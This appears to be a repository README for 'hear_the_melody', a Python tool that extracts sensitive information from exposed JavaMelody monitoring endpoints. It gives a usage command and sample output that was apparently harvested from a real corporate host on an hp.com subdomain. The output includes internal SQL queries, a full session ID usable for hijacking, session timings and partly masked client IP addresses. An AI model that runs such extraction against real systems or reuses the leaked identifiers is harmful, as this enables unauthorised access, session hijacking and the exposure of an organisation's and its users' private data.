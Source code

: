 # hear_the_melody
a python tool for extracting sensitive information from exposed java melody instances

# usage
python3 melody_extract.py --url https://example.com/monitoring --json

# sample output

```
{
        "url": "https://arc-pof.corp.hp.com/monitoring?part=database",
        "data": "<!DOCTYPE html PUBLIC \"-//W3C//DTD XHTML 1.0 Transitional//EN\",
        ....,
        </td><td align='right' valign='top'>900107788</td><td valign='top'>SELECT OT.TRANSACTION_ID           TRANSACTION_ID  ,OH.ORDER_ID                  ORDER_NO ,   to_char(OT.TRANS_CREATE_DT::timestamp, 'mm-dd-yyyy')
}
```

```
{
        "url": "https://arc-pof.corp.hp.com/monitoring?part=sessions",
        ....,
        <a href='?part=sessions&amp;sessionId=B12B65565D079D4E21953F6FA6EC282A'>B12B65565D079D4E21953F6FA6EC282A</a></td><td align='right'>00:02:21</td><td align='right'>00:12:41</td><td align='right'>5/30/22 11:27 PM</td><td align='right'>10</td><td align='center'>yes</td><td align='right'>-1</td><td>172.x.x.x forwarded for 201.x.x.x</td><td 
}
```
